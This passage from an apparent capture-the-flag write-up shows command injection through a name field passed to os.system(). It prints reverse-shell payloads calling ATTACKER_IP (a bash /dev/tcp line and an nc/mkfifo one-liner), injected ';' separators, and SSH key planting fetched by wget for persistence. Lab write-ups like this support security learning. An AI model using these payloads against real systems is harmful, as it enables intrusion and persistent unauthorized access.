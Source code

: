 Looks like we will be exploiting the report functionality, we simply have to inject some code as our name that will be executed on the system, since it's directly inserted in the `os.system()` function.
If we pass a reverse shell like:
```bash
sh -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

We can see that it tries to connect to our listener `nc -lvnp 1234` after we send the report, but the session gets also instantly terminated.
We can fix that simply by prepending it with a string and the symbol `;`: 
```
test; bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

This will successfully give us a reverse shell, but i was having problems as the commands were not showing any outputs, so i decided to switch reverse shell and put it in btween of `';SHELL_HERE;'`:
```bash
'; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f ;'
```

This time it worked fine, we can now upgrade our shell (i made a guide [here]()) and get the user flag:
```bash
cat /home/wes/user.txt
```
--> ATTACKER_IP

<br/>

### Privilege Escalation
For a more stable connection let's add our SSH key.
Generate them:
```bash
ssh-keygen -t rsa -b 4096 -C "
```

Now you can copy your public key to the current working directory:
```bash
cp ~/.ssh/id_rsa.pub .
```

Start a python server:
```bash
python3 -m http.server
```

On the target machine create this directory: `~/.ssh`.
Download here your public key:
```bash
wget http://ATTACKER_IP:8000/id_rsa.pub
```

Rename the file:
```bash
mv id_rsa.pub authorized_key
```
